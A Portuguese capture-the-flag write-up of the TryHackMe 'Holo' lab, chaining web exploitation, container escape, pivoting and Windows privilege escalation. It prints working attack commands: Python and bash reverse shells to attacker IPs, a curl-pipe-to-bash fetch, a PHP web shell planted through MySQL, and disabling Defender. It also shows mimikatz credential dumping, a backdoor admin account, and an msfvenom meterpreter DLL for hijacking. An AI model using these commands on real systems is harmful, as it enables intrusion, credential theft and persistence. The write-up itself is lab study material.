


### Informações que foram coletadas durante o CTF:
1. IP Inicial (10.201.126.33) do holo.live tem as portas 22 (SSH), 80 (HTTP) e 33060 (MySQLX) abertas
2. Foram encontradas **2 VHOSTS**:
	1. `admin.holo.live`
	2. `dev.holo.live`
3. Foram encontrados alguns diretórios interessante:
	1. admin.holo.live:
		1. Robots.txt que tinha informações de um arquivo de texto com possíveis credenciais importantes
		2. um possível nome de usuário `gurag`
	2. dev.holo.live
		1. Robots.txt que tinha algumas informações nada impactantes;
		2. img.php que passa um parâmetro file que está vulnerável a Directory transversal. Então era só usar as credenciais encontradas com o parâmetro vulnerável.
4. Acessando a área Admin foi descoberto que tem um parâmetro escondido (CMD) que nos permiti fazer uma Shell reversa;
5. Na shell reversa listando os diretórios do Admin (/var/www/admin):
	1. db_connect.php: aparece o IP, PASSWD,USER,NAME do Banco.
6. Entramos na **DOCKER** `192.168.100.100`:
	2. Portas Abertas: 33060 (?), 8080 (http-alt) , 3306 (MySQL) , 80 (HTTP) , 22 (SSH);
	3. Fazendo alguns Scanners, procuramos por o default gateway e encontramos **192.168.100.1**;
	4. Com o default gateway e sabemos que o MySQL está rodando, então daí entramos no banco
		1. Com a entrada no banco foram encontrado dois usuários, que já sabíamos (tecnicamente). O `admin` e o `gurag`.
7. **SAINDO DO DOCKER**:
	1. Como temos acesso ao banco então usaremos essa técnica para sair do Docker;
	2. Implantamos uma shell pelo mysql;
	3. Fazendo uma shell reverse conseguimos sair do docker.
8. Foi feita uma varredura para ver qual binário poderia ser usado para escalar privilégio.
9. Com o privilégio escalada foi gerado um chave SSH para persistir.
10. E com isso foi usado o `john-the-ripper` para quebrar a senha e descobrimos a senha do usuário `linux-admin`.
11. Com o login do `linux-admin` é usado o SSH para fazer um tunelamento para a rede interna.
12. Foi descoberto `http://10.201.126.31/`.
13. Com alguns testes descobrimos que o usuário `gurag` pode autenticar, mas como não temos a senha ao tentar explorar o redefinição de senha descobrimos que o `user_token` está exposto e conseguimos trocar a senha.
14. Logando na área Admin upamos uma Shell.
15. Após uma conexão reversa, foi iniciado `Powershell` pelo terminal e com o `mimikatz` conseguimos um usuário `watamet` e senha `Nothingtoworry!`.
16. Com as credenciais executamos o `NetExec` e descobrimos que conseguimos acessar com o `SMB` e o `evil-winrm`.
17. Com usuário autenticado no sistema, começa a etapa de enumeração de serviços, softwares, tarefas e etc. Para verificar qualquer sistema vulnerável para aproveitar.
18. Após etapa de enumeração e usando o `ProcMon` para monitorar como que funciona alguns programas, foi encontrado o `kavRemover` que solicitará uma `dll`.
19. A Etapa anterior não teve êxito, por conta que para executar o `.exe` precisa de privilégio Admin que pode ser resolvido com uma `CVE-2021-1675` que consegue colocar o usuário no grupo do ADMIN`.
20. Feito o DLL Hijacking, ao execurtamos o kavremover será chamada essa DLL infectada que com o listener rodando conseguiremos a shell
# Passo a Passo

Inicialmente eu comecei testando a máquina "L-SRV01" e fiz o listamento dos IPs com CIDR /24
`nmap -sn -v 10.201.126.33/24`
- Nmap scan report for 10.201.126.33
- Nmap scan report for 10.201.126.250
Ao rodar o NMAP para verificar as portas foram encontradas: **22, 80 & 33060**

Então verificamos as 3 portas


Então, inicialmente, vou verificar o site (porta 80) para ver se encontro informações valiosas

holo.live(10.201.126.33)/index.php


Logo em seguida, o proprio THM (TryHackMe) recomenda fazer um teste de vhost para verificar se encontramos algo de interessante, então rodaremos o comando: 
`wfuzz -u holo.live -w /home/arthur-strelow/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.holo.live" --hc 404,403 --hl 156`


Com isso podermos notar os dois VHOST encontrados:
http://admin.holo.live/
http://dev.holo.live/

Agora vamos rodar um gobuster, wfuzz e ffuf no site principal e nos dois vhosts para analisarmos diretórios que podem revelar informações confidenciais

Então vermos um diretório que parece interessate:

- `ffuf -u http://holo.live/FUZZ -w /home/arthur-strelow/SecLists/Discovery/Web-Content/raft-large-files.txt -fc 301,404`


Acessando o robots.txt

- `ffuf -u http://admin.holo.live/FUZZ -w /home/arthur-strelow/SecLists/Discovery/Web-Content/raft-large-files.txt -fc 301,404`


Acessando a robots.txt novamente para vermos se tem algo interessante

Opa, algo interessante foi encontrada, algumas URL's importantes

E por fim, vamos verificar o subdominio `.dev`
- `ffuf -u http://dev.holo.live/FUZZ -w /home/arthur-strelow/SecLists/Discovery/Web-Content/raft-large-files.txt -fc 301,404`


Ao analisar os diretórios o que mais me chamou atenção é o `img.php`

Olhando bem vimos que eles chamam a imagem por meio de um parâmetro `file=`
`http://dev.holo.live/img.php?file=images/fubuki.jpg`
se pegarmos o .txt que descobrimos no robots do subdominio admin

`http://dev.holo.live/img.php?file=/var/www/admin/supersecretdir/creds.txt`


Então temos as credenciais administrativas e um possivel nome de usuário "**gurag**"


Fazendo uma análise do site pelo código-fonte descobri que tem um parâmetro curioso


Daí com o NC ficamos escutando uma conexão para podermos fazer uma shell reversa

`http://admin.holo.live/dashboard.php?cmd=python3%20-c%20%27import%20os,pty,socket;s=socket.socket();s.connect((%2210.51.124.72%22,4444));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn(%22sh%22)%27`


**Shell Reversa feita**

Listando os arquivos da área administrativa, acabo encontrando um arquivo que pode ser usado posteriormente (db_connect.php)


Indo para o diretório padrão é descoberto que estamos em um docker


E daí vamos dar um ifconfig para descobrir o IP do DOCKER


Nesse caso vamos descobrir o Default Gateway da rede com o `route`


e daí, verificamos se a docker tem algum NMap caso tenha rodar um `-sS` para fazer uma espécie de ping, mas como não tem rodar o nc para verificar as portas TCP abertas
`nc -zv 192.168.100.1 1-65535`


E daí como, percebemos que está comunicando com o mysql que anteriormente conseguimos algumas credenciais


e Navegando até o fim temos dois usuários


Com acesso ao banco, então temos algumas permissões e começa as tentativas de sair do docker. A escolhida foi por meio de implantar uma SHELL pelo banco de dados

`select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`


Daí com essa shell implantada na máquina começamos montar a shell reverse

Na máquina do atacante criamos a shell reverse
```
#!/bin/bash  
bash -i >& /dev/tcp/<ip>/<porta> 0>&1
```

e daí fazemos um servidor web com python mesmo

nessa segunda shell foi usado o metasploit para ser o listener

com a shell feita só rodar o comando na docker

`curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.51.124.72%3A80%2Fshellscript.sh%7Cbash%20%26'`

**E com isso conseguimos sair da docker com êxito**

Com isso, podermos fazer uma varredura na máquina, como uma etapa de exploração.

Uma das etapas de reconhecimento que podermos analisar é são os **Binários**

Na máquina em questão foi explorado o **bin** do docker


antes de tentar executar o comando, primeiro tem que melhorar a shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z;
stty raw -echo
fg
export TERM=xterm
stty rows 25 columns 211
```

daí verificamos as images do docker


Após tudo isso


Agora para persistir a sessão é só criarmos a chave SSH
```
ssh-keygen
```

Copia o "id_rsa" para a **MÁQUINA DO ATACANTE** e dê permissão
```
chmod 600 id_rsa
```
E também, dê a mesma permissão no "id_rsa" da  **MÁQUINA DA VÍTIMA**

Para finalizar coloque a chave pública no "authorized_keys"
```
cat id_rsa.pub >> authorized_keys
```

Agora acesse o root diretamente via SSH

`ssh root@10.201.126.33 -i id_rsa`

Bem, como temos a máquina como root então o que podermos fazer uma espécie é usar o john para tentar quebrar as hash de senha

`john --wordlist= /home/arthur-strelow/SecLists/Passwords/Leaked-Databases/rockyou.txt senhas.txt --format=sha512crypt --fork=5`


Com acesso a esse usuário o que podermos fazer é uma análise para quais IPs ele se comunica para podermos tentar um **PIVOTING**

`for i in {1..254} ;do (ping -c 1 10.201.126.$i | grep "bytes from" | awk '{print $4}' | cut -d ":" -f 1 &) ;done`


Com os IPs válidos descobertos, uma opção viável é rodar o NMAP para tentar descobrir algumas informações de serviços

`nmap -sV -p- -v -T4 10.201.126.1 10.201.126.30-35 10.201.126.250`


Antes de tudo, precisamos criar um TUNNEL para a rede interna e faremos isso usando o SSH com o usuário "linux-admin"

`ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=30 -f -N -D 1080 linux-admin@10.201.126.33 -i id_rsa`

Com o `netstat -lnpt` podermos ver as conexões


O Tunnel feito precisamos configurar o proxychains4 (para acessar a rede interna)

`sudo nano /etc/proxychains4.conf`


Fazendo um teste para ver se conseguimos acessar a rede interna


E com isso para usar o navegador vai na aba de conexões e adicione essa socks5 e pronto.


Ao tentar os logins que temos o único que da certo é o "gurag" 


Hora de investigar a parte de "Forgot Password"


Passando o user "gurag" e inspecionando os elementos da página, pode perceber que o user_token está exposto


Área após o login 



Daí é so upar uma shell e pronto


Meio a tudo isso eu fiz um listener na minha máquina por questão de comodidade


Baixei o mimikatz pelo github e despejei na vítima pela shell que implantamos, mas antes eu tive que desativar o anti-virus

`Set-MpPreference -DisableRealtimeMonitoring $true`

`.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit`


**=> Caminho que criamos um usuário novo na maquina**

E daí o que podermos fazer é criar um usuário novo e dar permissão para fazer uma conexão RDP

```
net user arthur senhafacil /add => Cria o usuário e define a senha  
net localgroup Administrators arthur /add => adiciona arthur ao grupo de adm 
net localgroup "Remote Management Users" arthur /add => permite arthur usar winRM
net localgroup "Remote Desktop Users" arthur /add => permite arthur usar RDP
```


E agora, so falta conectar na área de trabalho remota

`proxychains rdesktop -u arthur -p senhafacil 10.201.126.31 -g 1920x1080`

=> **Voltando para o caminho do usuário que encontramos**

Temos uma conta de usuário, domínio e a senha
      
Usamos o netexec para verificar


Agora é so conectar na máquina com as credenciais que temos
`proxychains evil-winrm -i 10.201.126.31 -u watamet -p Nothingtoworry!`

Porém uma alternativa também que ao tentar (por acaso) uma conexão RDP com as mesmas credenciais, funcionaram também
`proxychains xfreerdp /v:10.201.126.35 /u:watamet /p:Nothingtoworry! -themes +clipboard /video`


Umas da etapas que é requerido a de enumeração usando o "Seatbelt", mas como não funcionou eu enviando pelo Evil-WinRM eu tentei usando o smb

`proxychains smbclient \\\\10.201.126.31\\c$\\ -U "watamet"%"Nothingtoworry!" -W holo.live`


logo depois vamos até o diretório que queremos upar o arquivo


no evil-rm já consta o arquivo


o sb.exe / Seatbelt.exe serve para reconhecimento para questoẽs da segurança

Também tem o SharpEDRChecker para verificar os processos em execução, DLLs carregadas e metadados de cada DLL

A partir de agora temos que pensar em escalar privilégios ou tentar alguma movimentação lateral

Uma ferramenta que é importante ressaltar é a PowerView

Em caso de restrições dessas ferramentas, podermos partir para os comandos do próprio powershell

```
Get-ScheduledTask
Get-ScheduledTaskInfo
whoami /priv
Get-ADGroup
Get-ADGroupMember
Get-ADPrincipalGroupMembership
```

No caso desse CTF o meio escolhido para escalar privilégio foi por meio de um programa que está fazendo uma tarefa agendada. Então o meio que escolheremos foi sequestrar essa DLL para implantar uma DLL infectada usando o `msfvenom`

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.74.15 LPORT=4444 -f dll -o kavremoverENU.dll
```

Uma vez a shell feita, precisamos de duas coisas:
- Colocar no lugar que o `kavremover.exe`chame ela que descobrimos que é no diretório `C:\Users\watamet\Applications`
- E precisamos procurar algum meio de conseguir executar

Pesquisando bastante foi encontrado esse exploit `CVE-2021-1675.ps1`


Então com essa conta podermos colocar a dll e executarmos o kavremover

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <ip>
run
```


Ao Executarmos o kavremover


Referências

https://github.com/jesusgavancho/TryHackMe_and_HackTheBox/blob/master/Holo.md
https://stimpz0r.com/tryhackme-holo/
